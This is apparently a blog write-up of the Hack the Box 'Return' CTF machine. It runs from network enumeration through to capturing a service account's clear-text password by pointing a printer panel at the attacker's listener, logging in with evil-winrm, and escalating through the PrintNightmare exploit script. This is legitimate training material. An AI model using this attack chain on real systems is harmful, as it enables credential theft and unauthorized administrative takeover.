



# Return
**Date:** February 24th 2022

**Author:** j.info

**Link:** [**Return**](https://app.hackthebox.com/machines/Return) CTF on Hack the Box

**Hack the Box Difficulty Rating:** Easy

<br>


<br>

## Objectives
- User Own
- System Own

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sC -sV -A -T4 10.10.11.108`

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-02-24 20:54:26Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped

Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.11.108 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/images               (Status: 403) [Size: 1233]
/index.php            (Status: 200) [Size: 28274]
/settings.php         (Status: 200) [Size: 29090]
```

<br>

## Website Digging

According to **Wappalyzer** this website is running on IIS version 10.0 and has a PHP backend.

Visiting the webpage takes us to a printer admin panel. 



<br>

Clicking on the **Settings** tab takes us to:



<br>

The **Fax** and **Troubleshooting** links don't actually lead anywhere.

The page source code doesn't show anything useful.

There are no cookies set.

I test for **SQLi** with **sqlmap** and don't find anything.

I decide to see if I can get the printer to connect back to me since I'm able to enter the IP address for it. I start a listener on my system using port 389 and then add my IP to the server address and click update.

```
connect to [<MY IP>] from (UNKNOWN) [10.10.11.108] 52374
0*`%return\svc-printer�
                       1edFg43012!!
```

It works, and that certainly looks to me like it's a clear text password for user **svc-printer**.

<br>

## SMB Digging

I first do a list with no login and it doesn't show anything. I then try to use the **svc-printer** id since it's the only thing we have at the moment and it does have some available shares:

`smbclient -L 10.10.11.108 -U svc-printer`

```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share
```

Looking in the **NETLOGON** share doesn't show anything.

Checking out the **SYSVOL** share has the following:

`smbclient \\\\10.10.11.108\\SYSVOL -U svc-printer`

```
smb: \> dir
  .                                   D        0  Thu May 20 09:25:44 2021
  ..                                  D        0  Thu May 20 09:25:44 2021
  return.local                       Dr        0  Thu May 20 09:25:44 2021
```

Instead of digging through the directories on the server I'm just going to **mget** everything down and browse locally.

On the SMB server I use `prompt` and then 'recurse' and then `mget *`:

```
NT_STATUS_ACCESS_DENIED listing \return.local\DfsrPrivate\*
getting file \return.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 22 as return.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \return.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as return.local/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \return.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol of size 2788 as return.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol (34.5 KiloBytes/sec) (average 13.3 KiloBytes/sec)
getting file \return.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 1098 as return.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (17.0 KiloBytes/sec) (average 14.2 KiloBytes/sec)
getting file \return.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 4262 as return.local/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (51.4 KiloBytes/sec) (average 22.7 KiloBytes/sec)
```

I look through the files but don't find anything overly interesting.

<br>

## System Access

Let's see if we can utilize **evil-winrm** here:

`evil-winrm -i 10.10.11.108 -u svc-printer -p '<1edFg43012!!>'`

```
Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

Success! Changing over to the **Desktop** directory shows us the user.txt flag, which we can display:

```
    Directory: C:\Users\svc-printer\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/24/2022  12:52 PM             34 user.txt
```

Given we have a printer exposed to the internet I check to see if it's vulnerable to **PrintNightmare**:

`./printnightmare.py -check 'svc-printer:1edFg43012!!@10.10.11.108'`

```
Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

[*] Target appears to be vulnerable!
```

Looks like it is and we should be able to escalate privileges using it. You can download the [**PowerShell script**](https://github.com/calebstewart/CVE-2021-1675) from this repository created by Caleb Stewart and John Hammond over to your local machine.

Then, change over to this directory on the target machine`cd C:\windows\system32\spool\drivers\color`

Upload the PowerShell script using the `upload <filename>` command.

Once it's there run the following to import the module:

`Import-Module .\CVE-2021-1675.ps1`

Then just run the `Invoke-Nightmare` command and it will create a user for you that has admin privileges.

```
*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> Invoke-Nightmare
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\svc-printer\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
[+] deleting payload from C:\Users\svc-printer\AppData\Local\Temp\nightmare.dll
```

<br>

## Admin

We now have user **adm1n** with password **P@ssw0rd**

I verify the permissions of the new user `net user adm1n`:

```
*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> net user adm1n

User name                    adm1n
Full Name                    adm1n
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/25/2022 12:52:25 PM
Password expires             Never
Password changeable          2/26/2022 12:52:25 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Domain Users
The command completed successfully.
```

Ok good to go now we can use **evil-winrm** to connect back over with our new user:

`evil-winrm -i 10.10.11.108 -u adm1n -p P@ssw0rd`

```
vil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\adm1n\Documents>
```

With that we should be able to change to the **Administrator** desktop and get the **root.txt** flag:

```
    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/24/2022  12:52 PM             34 root.txt
```

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
<REDACTED>

<br>

And with that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration using **nmap** and **gobuster**
- Exploiting a printer to connect back to us and display credentials in clear text
- Utilizing **evil-winrm** to get initial access to the system
- Exploiting **PrintNightmare** to escalate privileges to admin

<br>

Many thanks to:
- [**MrR3boot**](https://app.hackthebox.com/users/13531) for creating this CTF.
- **Hack the Box** for hosting this CTF.

<br>

You can visit them at: [**https://www.hackthebox.com**](https://www.hackthebox.com)